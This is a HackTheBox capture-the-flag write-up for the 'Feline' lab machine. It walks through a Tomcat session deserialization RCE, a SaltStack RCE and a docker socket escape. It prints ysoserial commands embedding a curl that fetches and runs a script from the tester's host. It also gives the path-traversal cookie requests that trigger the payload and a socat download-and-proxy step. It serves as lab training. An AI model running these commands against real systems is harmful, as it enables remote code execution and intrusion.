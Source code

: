 ```yaml
---
title: "Feline"
subtitle: "HackTheBox"
author: GoProSlowYo
date: "2021-08-31"
subject: "Feline Write-Up"
keywords: \[HTB, HackTheBox, InfoSec\]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
titlepage-rule-height: 0
logo: "./resources/9059f2197d78496b88ea51e535375dd3.png"
logo-width: 6in
toc: true
toc-own-page: true
---
```


# Feline

## Overview

This was a really hard box that starts off with a Java deserialization RCE and then takes it up a notch with a Saltstack RCE to privesc into a docker container. From there you need to escape the docker container to get a root shell using some manipulation of the docker socket which was helpfully mounted inside the saltstack container.

## Enumeration

We started off with the typical Rustscan/nmap of the open ports:

```shell
# Nmap 7.80 scan initiated Tue Aug 31 18:09:52 2021 as: nmap -vvv -p 22,8080 -sS -sV -sC -oN 10.10.10.205.feline.nmap.txt 10.10.10.205
Nmap scan report for 10.10.10.205
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2021-08-31 18:09:52 PDT for 10s

PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
8080/tcp open  http    syn-ack ttl 63 Apache Tomcat 9.0.27
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 31 18:10:02 2021 -- 1 IP address (1 host up) scanned in 10.27 seconds
```
**Rustscan/nmap Output**

Looks like there's an `Apache Tomcat` webserver on `8080`. In typical HackTheBox fashion we should add the name of the box to our `/etc/hosts` file and then we check out the website.

![20210905_145105.png](./resources/4657dcace27847af81d5772525fbc440.png)
**VirusBucket Website on 8080 served via Apache Tomcat**

There's not much to go on with the current page so let's enumerate further with `Feroxbuster`.

![2021-09-06_06-27-24.png](./resources/a98d8ce637fa49678d9678d81fc4362c.png)
**Feroxbuster Output**

### Port 8080 - Apache Tomcat

`Feroxbuster` immediately found `/images` and `/services`, the latter of which is interesting to us:

![1078adcfccd9128c9c35e97dd227b1f7.png](./resources/4060d3d5c5e440cfb4aa930ea831f8b3.png)
**VirusBucket Upload Service**

Looks like we can upload files and they'll end up on the machine. We just don't know where yet. We had a version of Tomcat given to use earlier so we should see if there were any RCEs or other CVEs that might help us here.

Initially we only found some exploit-db results which were not exactly what we were looking for so this taught us to google a little further in some cases outside of exploit-db:

![20210905_151718.png](./resources/d5a92efca2df45eaa70eb780e555f854.png)
**Googling a Little Deeper**

We find a great blog post on [RedTimmy](https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/) that helpfully outlines an exploit for the version of Tomcat that's running here and gives us some PoC examples to walk through.

![2021-09-05_15-12-57.png](./resources/6f0b6abc68bb4371a7d456e61cac1395.png)
**RedTimmy Apache Tomcat Deserialization Blog Post**

## Foothold and Exploitation

Following the PoC in the blog post we can use `ysoserial` to create a malicious java payload that contains a deserailization payload that will run our commands.
```shell
$ java -jar ysoserial.jar CommonsCollections2 'curl http://10.10.14.16:32001/p.sh -o /tmp/p.sh' > curl.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

$ java -jar ysoserial.jar CommonsCollections2 'chmod +x /tmp/p.sh' > chmod.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

$ java -jar ysoserial.jar CommonsCollections2 '/tmp/p.sh' > exec.session
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

![2021-09-05_15-24-39.png](./resources/7f2de8e6f9df4159be2b6bc65f35e69a.png)
**Creating Malicious Paylods with ysoserial**

The only thing we need to know now is where our uploads end up on the server. We found by using Zap and messing around with the filename we send to the webserver that if we do not include a filename it causes and error and helpfully reveals the upload location:

![2021-09-06_05-58-11.png](./resources/421737e1eb2149ae835c99516bad7822.png)
**Fuzzing with Zap on the Filename**

![2021-09-06_05-58-54.png](./resources/4063befe126245f1ab3bb6fdb1a16b37.png)
**Path Disclosure via an Error Message**

Now we're ready to use `curl` with a specially crafted `Cookie` header to achieve RCE.

```shell
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/curl" >/dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/chmod" >/dev/null
curl -s http://10.10.10.205:8080/ -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/exec" >/dev/null
```

After that series of curl commands we should have received a reverse shell:

![2021-09-06_02-11-15.png](./resources/9f82a349a2a64ee59450691906f73d77.png)
**Getting an Initial Foothold via a Deserialization Attack**

## Further Enumeration and Privilege Escalation

I poked around the box a little bit but was unable to turn up anything interested with a quick look at SETUID binaries, cronjobs, `/var/backup` and for easy wins in the directories in `/home/`. So next I tried linpeas and noticed some interesting internal services this time.

![2021-09-06_02-24-37.png](./resources/bfa0bb18bbc6492ab53b69e96dd69336.png)
**Some Service Listening Internally**

Some of the other ports like 8000 and 8005 seemed arbitrary right now and I wasn't sure of what services run on ports `4505` and `4506` so we asked Google:

![2021-09-06_02-26-12.png](./resources/661379f2acc14b48b04ac07bc3f08eba.png)
**Google, what's port 4505?**

SaltStack! Let's find out what the RCE or privesc is :). We googled around a bit and stumbled upon `CVE-2020-11651` and [this GitHub repository](https://github.com/jasperla/CVE-2020-11651-poc) with an extremely helpful PoC.

Unfortunately the service we want to exploit is not listening externally and we needed to use a few python dependencies, notably the `salt` python module. To get around this we can use `socat` to proxy TCP traffic sent to a port listening externally on the victim to a specific socket.

```shell
tomcat@VirusBucket:/var/crash$ curl -LO http://10.10.14.4:32001/socat
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  366k  100  366k    0     0   574k      0 --:--:-- --:--:-- --:--:--  575k
tomcat@VirusBucket:/var/crash$ chmod +x socat                                   
tomcat@VirusBucket:/var/crash$ ./socat tcp-l:45060,fork,reuseaddr tcp:127.0.0.1:4506 &
[1] 86671
```

![2021-09-06_03-31-39.png](./resources/03d8570dd9cb491d8bb1673639fba09b.png)
**Socat to the rescue^H^H^H^Hlay**

Once we have our socat proxy ready and our netcat listener up we can use the PoC code to get a shell inside a Saltstack master docker container.

![2021-09-06_03-28-50.png](./resources/e6358de9f1d94591a80bd75673f17b67.png)
**Getting a shell via Saltstack RCE**

The command that we ran was sensitive to the order of the "quotes" and if we look at the error logs in the Salt container we can see why the shell with inner single quotes did not work. We were breaking the `subprocess.Popen()` arguments with the single quotes:

![2021-09-06_04-17-16.png](./resources/7c93bc76acff43f885dea04971409e89.png)
**Why Quoting in our Payload Matters!**

## Inception ... or Privilege Escalation from Docker 

Now we need to escape from the container into the host. We enumerated the container and found the docker socket at first but weren't sure how to abuse it without having the `docker` command.

We found two REALLY HELPFUL resources about abusing the docker socket via `curl` and `socat` one from [Dejan Zelic](https://dejandayoff.com/the-danger-of-exposing-docker.sock/) and the other from [SecureIdeas](https://secureideas.com/blog/2018/05/escaping-the-whale-things-you-probably-shouldnt-do-with-docker-part-1.html) here.

Using the information here we were able to find out that there is an image on the docker host called `sandbox`. We're going to launch that container, mount the host file system into it.

![2021-09-06_05-30-48.png](./resources/d08e2075da554bccbed311efcbfd1a54.png)
**Staging, Creating, and Starting our Docker Container**

Next we need to attach to the new container to get our root flag.

![2021-09-06_06-05-45.png](./resources/5bdb30710cd64ff0a8d2a71c2ba0c020.png)
**Give me the flag already, damnit!**
